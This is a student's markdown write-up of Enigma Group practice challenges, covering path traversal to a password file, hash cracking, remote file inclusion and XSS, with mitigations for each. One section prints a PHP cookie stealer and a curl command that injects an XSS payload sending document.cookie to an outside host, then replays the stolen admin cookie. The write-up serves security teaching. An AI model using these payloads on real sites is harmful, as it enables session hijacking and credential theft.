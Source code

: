 # Enigma Group Project #3

## Student Information

* Student name: **Benjamin Greenberg**
* NetId: **bgreenb3**
* Enigma group profile: <https://www.enigmagroup.org/profile/66636>


## Project Description

In this project, you will be complete the following challenges on [Enigma Group](https://www.enigmagroup.org/pages/challenges): Basic 27 (URL manipulation), Basic 30–32 (variable manipulation), and 40–41 (XSS). After completing each challenge you will complete the following worksheet describing:
1. The credentials found in the challenge (if any).
2. How you solved the challenge. Include any JavaScript or other scripts you used to solve these challenges.
3. What sins (as found in the *24 Deadly Sins* book) are evidenced in the challenge.
4. How those sins should be addressed to address your exploit.

You can find a basic guide for markdown formatting [here](https://www.markdownguide.org/basic-syntax/). In particular, note the [code section](https://www.markdownguide.org/basic-syntax/#code) which should be used to annotate any code or commands used in your writeup.


## Challenges

---
### Basic 27

#### Credentials
User: administrator
Password: 3e0f84

#### How you passed the challenge
1) Tried logging in and saw that the error page displayed what was in the file parameter in the url
2) Saw that the website was looking for ```password.php``` and replaced the file parameter with ```password.php```
3) Used the password for administrator stored in ```password.php```

#### What sins are evidenced in this challenge
Sin #12, Sin #2

#### How could those sins be mitigated
Be careful about what error information is displayed 
Make sensitive files unreadable to unauthorized users



---
### Basic 30

#### Credentials
Username: admin
Password: dog

#### How you passed the challenge
1) I saw that the website took user input through the ```$page``` parameter
2) I looked in ```pages/``` and didn't find ```.htpasswd``` in there
3) I set ```$page='../admin/.htpasswd``` to get the password hash 
4) I used john the ripper to decrypt the password

#### What sins are evidenced in this challenge
Sin #2, Sin #12

#### How could those sins be mitigated
Don't leave files with sensitive access/information user readable
Be careful about what error information is displayed 
Don't use user input in filenames and use to switch statement loaded files



---
### Basic 31

#### Credentials
N/A

#### How you passed the challenge
1) I noticed that the url was odd, but when I tried changing ```index2.html``` to ```index.html``` it just redirected anyways
2) I then went to the source code of ```index2.html``` and changed the url to ```index.html``` which should me index's source code
3) I looked in the source code of ```index.html``` and noticed the odd php file ```911_411.php```
4) I went to the odd php file and completed the mission

#### What sins are evidenced in this challenge
Sin #12

#### How could those sins be mitigated
Don't leave files with sensitive access/information user readable



--- 
### Basic 32

#### Credentials
N/A

#### How you found the credentials
```http://challenges.enigmagroup.org/basics/vm/3/index.php?page=http://challenges.enigmagroup.org/basics/vm/3/index.php?page=news```
I used the url of the website as a remote url 

#### What sins are evidenced in this challenge
Sin #2 - RFI

#### How could those sins be mitigated
Don't use user input in filenames and use to switch statement loaded files



---
### Basic 40

#### Credentials
N/A

#### How you found the credentials
```http://challenges.enigmagroup.org/basics/xss/1/index.php?search=<script>alert("test");</script>```
I found that the search parameter could accept user input and put the ```alert()``` in there

#### What sins are evidenced in this challenge
Sin #3 - XSS

#### How could those sins be mitigated
Validate user input



---
### Basic 41

#### Credentials
Cookie: admin=d02be8

#### How you found the credentials
1) I figured out how to send scripts to the website through the user agent
2) After spending hours with no success, I found out through classmates that the only way the website will respond is if a cookie stealer sent to through the UA
3) I built the cookie stealer and eventually stole the cookie
4) Then I sent the cookie back using curl to complete the mission

##### Cookie Stealer
```php
<?php
  $cookie = $_GET["cookie"];
  mail("bgreenb3@vols.utk.edu", "Enigma Group Cookies", $cookie);
?>
```

##### Curl to steal the cookie
```bash
curl http://challenges.enigmagroup.org/basics/xss/2/ -A "<script>document.location='http://volweb2.utk.edu/~bgreenb3/index.php?cookie=' + document.cookie;</script>" --cookie "PHPSESSID=hb948026e0k0vudle7vhpfldl0"
```

##### Curl to get admin access
```bash
curl http://challenges.enigmagroup.org/basics/xss/2/  --cookie "PHPSESSID=hb948026e0k0vudle7vhpfldl0;admin=d02be8"
```

#### What sins are evidenced in this challenge
Sin #3 - XSS

#### How could those sins be mitigated
Validate user input
Don't build DOM elements based on direct user input


